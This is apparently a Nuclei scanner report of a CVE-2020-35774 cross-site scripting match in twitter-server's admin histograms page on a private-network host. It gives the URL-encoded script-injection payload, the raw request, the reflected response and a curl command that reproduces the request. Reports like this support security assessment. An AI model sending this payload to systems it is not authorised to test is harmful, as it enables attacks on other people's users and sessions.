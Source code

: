 ### twitter-server Cross-Site Scripting (CVE-2020-35774) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2020-35774**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/admin/histograms?h=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&fmt=plot_cdf&log_scale=true

**Timestamp**: Wed Jun 8 20:22:20 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | twitter-server Cross-Site Scripting |
| Authors | pikpikcu |
| Tags | cve, cve2020, xss, twitter-server |
| Severity | medium |
| Description | twitter-server before 20.12.0 is vulnerable to cross-site scripting in some configurations. The vulnerability exists in the administration panel of twitter-server in the histograms component via server/handler/HistogramQueryHandler.scala.
 |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2020-35774](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2020-35774) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /admin/histograms?h=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&fmt=plot_cdf&log_scale=true HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 237
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/admin/histograms?h=</script><script>alert(document.domain)</script>&fmt=plot_cdf&log_scale=true</B> was not found.</BODY></HTML>
```

References: 
- https://advisory.checkmarx.net/advisory/cx-2020-4287
- https://nvd.nist.gov/vuln/detail/cve-2020-35774
- https://github.com/twitter/twitter-server/commit/e0aeb87e89a6e6c711214ee2de0dd9f6e5f9cb6c
- https://github.com/twitter/twitter-server/compare/twitter-server-20.10.0...twitter-server-20.12.0

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36' 'http://192.168.198.179:8080/admin/histograms?h=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E&fmt=plot_cdf&log_scale=true'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)